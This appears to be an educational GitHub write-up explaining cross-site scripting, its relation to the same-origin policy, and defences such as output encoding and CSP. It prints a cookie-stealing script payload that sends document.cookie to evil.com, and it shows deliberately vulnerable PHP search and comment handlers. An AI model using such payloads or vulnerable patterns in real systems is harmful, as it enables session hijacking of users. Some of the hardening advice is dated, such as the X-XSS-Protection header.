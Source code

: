 ## **What is XSS (Cross-Site Scripting)?**  

**Cross-Site Scripting (XSS)** is a type of web security vulnerability that allows attackers to inject **malicious scripts** (usually JavaScript) into **trusted websites**. These scripts run in the context of the victim's browser and can be used to steal **cookies, session tokens, or sensitive information**, and even impersonate the user.  

### **Types of XSS Attacks**
1. **Stored XSS (Persistent XSS)**  
   - The malicious script is permanently stored on the website (e.g., in a database or forum post).  
   - Example: A hacker injects a script into a comment section, and every user who views the comment executes the script.  

2. **Reflected XSS**  
   - The malicious script is included in a URL and executed when the victim **clicks the link**.  
   - Example: A phishing email contains a crafted URL that, when opened, runs malicious JavaScript.  

3. **DOM-based XSS**  
   - The attack manipulates the webpage’s **Document Object Model (DOM)** without sending malicious content to the server.  
   - Example: A JavaScript function reads URL parameters and inserts them into the page without proper sanitization.  

---

## **What is SOP (Same-Origin Policy) and its Relationship with XSS?**  

**Same-Origin Policy (SOP)** is a **security mechanism** implemented in web browsers to **prevent websites from interacting with resources from different origins** (protocol, domain, and port must match).  

### **How SOP Works**
- A webpage from `https://example.com` **cannot** access cookies, local storage, or API responses from `https://evil.com`.  
- This helps **prevent malicious sites** from reading sensitive data from another website.  

### **XSS vs. SOP: The Relationship**
✅ **SOP protects against cross-origin attacks**, but **XSS bypasses SOP** by injecting scripts into the trusted origin itself.  

- SOP **blocks malicious scripts from different origins** (e.g., `evil.com` cannot directly steal data from `bank.com`).  
- However, **XSS exploits a vulnerability within the same origin** (e.g., `bank.com` itself loads an attacker’s script).  

### **Example of SOP Failing Against XSS**
1. A user visits `https://trusted.com`, which follows SOP rules.  
2. The website has an **XSS vulnerability** in its comment section.  
3. An attacker injects `<script>fetch('https://evil.com/steal?data=' + document.cookie);</script>`.  
4. The script **executes in the victim’s browser on `trusted.com`** and steals the user's session cookie.  
5. SOP does **not** protect against this because the script runs **within the same origin (`trusted.com`)**.  

---

## **How to Prevent XSS Attacks?**
✅ **Use Content Security Policy (CSP)**  
   - Restrict allowed script sources (e.g., only from the same domain).  

✅ **Sanitize User Input**  
   - Remove or encode dangerous characters (`<`, `>`, `"`).  

✅ **Use Secure HTTP Headers**  
   - `X-XSS-Protection: 1; mode=block`  
   - `Content-Security-Policy: script-src 'self'`  

✅ **Use Output Encoding**  
   - Convert user input into safe HTML entities (`<script>` → `&lt;script&gt;`).  

✅ **Validate User Input**  
   - Only allow expected input formats (e.g., numbers, emails).


### **XSS Exploitation & Prevention: Practical Examples**  

**how an attacker exploits XSS** and **how to prevent it** in a web application.

---

## **1. Exploiting XSS (Reflected & Stored XSS)**
### **Reflected XSS Example**
- Consider a vulnerable search bar in a web application:
  ```html
  <form action="search.php" method="GET">
      <input type="text" name="q" placeholder="Search...">
      <input type="submit" value="Search">
  </form>
  ```
- The server processes the search query and displays it:
  ```php
  <?php
      $query = $_GET['q'];  
      echo "Search results for: " . $query;  
  ?>
  ```
- If a user enters `<script>alert('Hacked!')</script>`, the page **renders it as HTML**, leading to an XSS attack.

✅ **Attacker’s Exploit:**  
- The attacker crafts a malicious URL:  
  ```
  https://victim.com/search.php?q=<script>alert('Hacked!')</script>
  ```
- If the victim **clicks the link**, their browser executes the script, displaying a pop-up (`alert('Hacked!')`).

---

### **Stored XSS Example**
1. **Vulnerable Comment System**
   ```php
   <?php
       $comment = $_POST['comment'];
       // Insert into the database (No sanitization)
       $sql = "INSERT INTO comments (text) VALUES ('$comment')";
       $conn->query($sql);
   ?>
   ```
2. **Attacker Posts a Malicious Comment**
   ```
   <script>fetch('https://evil.com/steal?data='+document.cookie)</script>
   ```
3. **Whenever another user visits the page, the script executes, stealing their session cookies.**

---

## **2. Preventing XSS Attacks**
### **✅ Using Output Encoding**
- Convert special characters into **safe HTML entities** to prevent scripts from executing:
  ```php
  <?php
      $query = htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8');
      echo "Search results for: " . $query;
  ?>
  ```
  **Now, `<script>alert('XSS')</script>` is displayed as text, not executed.**

---

### **✅ Using Prepared Statements (for Stored XSS Prevention)**
- Prevent SQL Injection **and** XSS by using **prepared statements**:
  ```php
  <?php
      $stmt = $conn->prepare("INSERT INTO comments (text) VALUES (?)");
      $stmt->bind_param("s", htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8'));
      $stmt->execute();
  ?>
  ```

---

### **✅ Using Content Security Policy (CSP)**
- CSP prevents the browser from executing unauthorized scripts:
  ```http
  Content-Security-Policy: default-src 'self'; script-src 'self'
  ```
- This blocks **inline JavaScript** and external scripts not hosted on the same domain.

---

### **✅ Using HTTP Security Headers**
- Add security headers to prevent **XSS execution**:
  ```http
  X-XSS-Protection: 1; mode=block
  Content-Security-Policy: script-src 'self'
  ```
  This tells the browser to **block XSS attempts automatically**.

---

## **3. Testing for XSS (Tools)**
Here are tools used for testing XSS vulnerabilities:
🔹 **Burp Suite** – Intercept HTTP requests and modify parameters.  
🔹 **OWASP ZAP** – Automated scanning for XSS.  
🔹 **Google XSS Playground** – Safe environment to practice XSS attacks.  

---

### **Conclusion**
✅ **XSS bypasses the Same-Origin Policy (SOP) by executing scripts within the same trusted site.**  
✅ **To prevent XSS, always sanitize user input, use CSP, and apply security headers.**  
✅ **Testing with tools like Burp Suite and OWASP ZAP helps detect vulnerabilities.**  

